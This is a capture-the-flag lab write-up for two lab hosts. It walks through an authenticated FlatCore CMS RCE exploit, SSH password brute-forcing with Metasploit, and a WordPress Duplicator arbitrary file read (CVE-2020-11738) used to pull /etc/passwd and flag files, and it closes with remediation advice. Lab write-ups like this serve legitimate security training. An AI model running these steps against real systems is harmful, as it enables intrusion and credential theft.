# CTF Report: Exploitation I

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target 1:** target1.ine.local (192.21.223.3) — Ubuntu, Apache 2.4.41, FlatCore CMS<br>
**Target 2:** target2.ine.local (192.21.223.4) — Ubuntu, WordPress 6.1<br>
**Attacker:** 192.21.223.2 (Kali)<br>
**Objective:** Identify the services and capture all four flags (md5 format).

## 1. Executive Summary

Target 1 runs **FlatCore CMS** — authenticated RCE (admin:password1) gives a shell and the
first flag, and an insecure user (`iamaweakuser`) falls to an SSH brute-force for the second.
Target 2 runs **WordPress 6.1** with the vulnerable **Duplicator 1.3.26** plugin — an
arbitrary file read grabs the third flag, and a no-/weak-auth user (`iamacrazyfreeuser`)
falls to SSH brute-force for the fourth.

## 2. Recon

```bash
ping -c 4 target1.ine.local    # 192.21.223.3
ping -c 4 target2.ine.local    # 192.21.223.4
```





## 3. Target 1 — FlatCore CMS

```bash
# global RHOSTS set
db_nmap -sV 192.21.223.3
services
```

Ports 22 (OpenSSH 8.2p1) and 80 (Apache 2.4.41).







Logging in with the provided credentials.

```
admin:password1
```



### Flag 1 — Authenticated RCE

```bash
searchsploit flatcore
cp /usr/share/exploitdb/exploits/php/webapps/50262.py flat.py   # FlatCore CMS 2.0.7 RCE
python3 flat.py
```





The first flag is in `/`.

```
Flag 1: 0113823156b24791b0a2d3162234fc0c
```



### Flag 2 — Insecure User (SSH brute-force)

Enumeration reveals the user `iamaweakuser`.



```bash
use auxiliary/scanner/ssh/ssh_login
set username iamaweakuser
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
# Success: iamaweakuser:angel
```





```
Flag 2: e2f6d83651f547bd97d27b740a74408a
```



## 4. Target 2 — WordPress

```bash
# global RHOSTS set to 192.21.223.4
db_nmap -sV 192.21.223.4
```








### Flag 3 — Duplicator Plugin File Read

```bash
use auxiliary/scanner/http/wordpress_scanner
run        # WordPress 6.1, plugin: duplicator 1.3.26
```



The Duplicator 1.3.26 plugin has an arbitrary file read (CVE-2020-11738).

```bash
use auxiliary/scanner/http/wp_duplicator_file_read
set FILEPATH /flag3.txt
run
# FLAG3{3a91a2ca96114019a1a4e0a0cc971e9e}
```



### Flag 4 — No-Auth User (SSH brute-force)

Reading `/etc/passwd` via the same file read reveals `iamacrazyfreeuser`.



```bash
use auxiliary/scanner/ssh/ssh_login
set USERNAME iamacrazyfreeuser
run
# Success: iamacrazyfreeuser:password1
```

```
Flag 4: a134ed79eac74b7b8945986bd05bd0c5
```



## 5. Remediation Recommendations

1. **Patch/replace FlatCore CMS and the Duplicator plugin** (CVE-2020-11738) and keep
   WordPress core/plugins updated.
2. **Change default/weak admin credentials** (`admin:password1`) and enforce strong
   passwords + lockout — both SSH users fell to wordlists.
3. **Restrict file-read exposure** — the Duplicator flaw leaked `/etc/passwd`; apply least
   privilege and WAF rules.
4. **Harden SSH** — key-based auth, no weak passwords, fail2ban, and disable unused accounts.
